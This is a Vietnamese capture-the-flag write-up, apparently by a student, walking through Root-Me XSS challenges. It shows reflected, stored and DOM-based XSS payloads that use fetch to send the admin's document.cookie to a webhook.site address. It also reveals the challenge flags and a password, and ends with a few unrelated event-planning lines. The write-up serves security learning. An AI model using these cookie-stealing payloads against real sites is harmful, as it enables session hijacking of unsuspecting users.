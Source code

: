 # TASK 5 root-me
## XSS Reflected
mày mò trong trang web một lúc. em thấy có phần contact us có thể nhập được dữ liệu vào nhưng ở bên trên họ bảo là cái form contact này là vô dụng. 
![](https://i.imgur.com/ODGDjyy.png)
em vẫn muốn thử nó xem có phải nó lừa không. Kết quả là chẳng có gì thật. Vì khi gửi liên lạc đi thứ chúng ta nhận lại vẫn chỉ là trang đó nhưng có chữ cảm ơn.
![](https://i.imgur.com/uviy3u6.png)

![](https://i.imgur.com/NM2d17w.png)
đến đây em chuyển hướng sang nhập dữ liệu vào trên url. nhận thấy rằng sau dấu?p= sẽ là tên của trang đang hiện hành. vậy nên em sẽ thay thế phần tử đằng sau dấu bằng đó.
![](https://i.imgur.com/2vievkT.png)
đây rồi. mặc dù không thành công tuy nhiên e đã thấy dòng script của mình và 1 phần report to admin. 
mở source đọc thì em nhận ra vấn đề rằng dấu <> đã bị filter hết. Vậy nên dòng script của em không chạy được. Tuy nhiên ở phần href cũng có đường dẫn nên em sẽ thử đóng nháy đơn và chạy lại script vẫn không được do dấu <> vẫn bị mã hóa. vậy nên em thử truyền vào Attribute 
![](https://i.imgur.com/F7pu06g.png)
![](https://i.imgur.com/Toco3tY.png)
thông báo đã hiện lên. vậy là hướng đi này đã đúng. Giờ tiếp theo em muốn sửa URL thành một đường mã độc và gửi lên admin. Khi admin chỉ cần bấm vào thôi sẽ gửi lại cookie về cho em. 
Công việc trên có 2 phần. Phần thứ nhất là khi admin bấm vào thông tin sẽ gửi về đâu. Vấn đề này em sẽ sử dụng https://webhook.site/ để tạo ra một địa chỉ nhận thông tin gửi về. 
Phần thứ 2 là tạo nên URL mã độc gửi cookie của admin cho em. Em sẽ sử dụng 
fetch để bắt tập tin gửi đi từ máy admin vào kèm theo cookie của máy admin. 
trang đó sẽ thế này: 'autofocus onfocus='fetch(` link webhook? `+document.cookie)
đoạn trên cần có dấu ? sau link của webhook để url hiểu sau dấu ? sẽ là tham số. Cả đoạn code sẽ phải encode lại vì URL sẽ hiểu nhầm + thành khoảng cách đã được encode. 
![](https://i.imgur.com/J48wFV6.png)
trang web sẽ không hiện gì như lần trước nữa 
nhưng webhook đã bắt được cookie của áy chủ vừa chạy dòng URL đấy chính là máy của em. 
![](https://i.imgur.com/Ta8TOTO.png)
giờ ấn gửi cho admin và chờ admin sập bẫy khi ấn vào là xong. 
![](https://i.imgur.com/5YwaVwx.png)
đã có được cookie của admin. admin cút luôn
flag=r3fL3ct3D_XsS_fTw

## XSS-Stored1
vừa vào bài đã có chỗ để em thử chèn script vào. em thử và được thật
![](https://i.imgur.com/iHf5ImR.png)
![](https://i.imgur.com/gnmoBEo.png)
vậy em sẽ mở script và tạo link fetch về link webhook của em. Cookie gửi về chính là flag
payload: <script>fetch(`https://webhook.site/30a3b15c-886a-454e-ad1d-ba9aee49a6bd?${document.cookie}`)</script>

![](https://i.imgur.com/1NpqG5Q.png)

flag: NkI9qe4cdLIO2P7MIsWS8ofD6


## XSS-DOM Based introduction
em vào trang main sau đó nhập thử 1 số và nó báo sai. nhập lại lân nữa nó lại sai với số khác nên em nghĩ nó đã random số và so sánh với số mình nhập vào. em vứt vào burp suite thì thấy k phải.
![](https://i.imgur.com/G8rLKTT.png)
mao phắc :) kể cả mình có random ra đúng với số mình nhập vào thì cũng không được flag
tuy nhiên em nhận ra ở request có URL đã hiện lên số em nhập vào nên em đã test một lúc để thử ở phần url và bùm
![](https://i.imgur.com/3VaYJ8N.png)
![](https://i.imgur.com/WWTbP0E.png)
giờ hướng của em sẽ là viết đoạn payload có thể lấy được cookie của admin và sử dụng link đó gửi cho admin qua contact.
payload: '; alert(1); // 
giờ em thay đoạn fetch vào 
'; fetch(`https://webhook.site/ecfc82bf-b31d-4692-972d-3c2e6c43ecec?${document.cookie}`)//

thử trên url đã bắt được cookie của máy em nên em gửi lên cho admin
![](https://i.imgur.com/zRK3BGo.png)
BUM BABE
flag: 	rootme{XSS_D0M_BaSed_InTr0}

## XSS DOM based-AngularJS
em thử mọi thứ nhưng mà em thấy cách thông thường bị filter hết nên đang k biết hướng làm.
## XSS DOM Based-Eval
em thử mọi thứ nhưng mà em thấy cách thông thường bị filter hết nên đang k biết hướng làm.
## XSS-Stored2
 mày mò 1 lúc ở page em nhập thử script ở cả title và message nhưng đều không có dấu hiệu bị xss đơn giản như ở stored1 tuy nhiên có 1 điều em thấy khác lạ đó chính là status invite hiện xanh như muốn gọi mời chúng ta vào nghiên cứu ở đấy. Thử 1 vài cách nhập ở page mong thay đổi được status ở đấy nhưng mà không đượ nên em vứt vào burp suite 
![](https://i.imgur.com/bN9rVOq.png)
sau đó em thay đổi giá trị cookie status đó. ![](https://i.imgur.com/rJyhI01.png)
dòng status ở trên đã thay đổi nên em nghĩ luôn đến việc thực hiện xss ở status này. 
payload: "><script>fetch(`https://webhook.site/ecfc82bf-b31d-4692-972d-3c2e6c43ecec?${document.cookie}`)</script>

admin sa lưới là cook lun: ![](https://i.imgur.com/SrREGBv.png)
nma ở đây là 1 cái admin cookie em thử xem có phải là flag không thi nó không phải. sau đó em vứt vào burp suite xem nó có gửi gì về không. 
![](https://i.imgur.com/Dzxo6jh.png)
ra pass luôn. lét gâu.
pass : E5HKEGyCXQVsYaehaqeJs0AfV



sự chuẩn bị 
mục tiêu sự kiện 
ngân sách
giải quyết rủi ro
